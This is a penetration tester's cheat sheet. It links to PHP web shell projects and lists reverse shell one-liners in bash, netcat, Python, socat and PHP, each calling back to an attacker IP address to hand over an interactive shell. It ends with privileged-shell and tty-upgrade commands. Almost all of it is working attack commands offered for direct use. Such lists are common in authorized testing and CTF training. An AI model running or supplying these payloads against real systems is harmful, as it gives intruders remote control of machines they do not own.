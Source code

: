 ## Web shells 
[phpbash web shell](https://github.com/Arrexel/phpbash) 

[pentest monkey php shell](https://github.com/pentestmonkey/php-reverse-shell) 

[pwney web shell]

## Reverse shell commands  
    bash -i >& /dev/tcp/10.6.85.85/4444 0>&1
nc w/ -e (traditional):  

    nc -e /bin/sh 172.16.5.1 4242   
    
nc openbsd (no -e):    

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.85.85 53 >/tmp/f    
python: 

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' 
    
socat                     

    socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:4444 
    
PHP            
    
    php -r '$sock=fsockopen("10.6.85.85",4444);exec("/bin/sh -i <&3 >&3 2>&3");' 
   
Also Ruby, Java: Reverse shells cheat sheet    
[Tiberius Reverse Shells](https://github.com/Tib3rius/Pentest-Cheatsheets/blob/master/exploits/reverse-shells.rst) 


Nesting shells      

  bash -p    /bin/sh -p 


Upgrading to a pseudo terminal / tty     

    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash')
    /bin/sh -i
    vi -> :sh or :!UNIX_command
    perl —e 'exec "/bin/sh";'
    
    SHELL=/bin/bash script -q /dev/null        Ctrl-Z        stty raw -echo        fg    reset    xterm
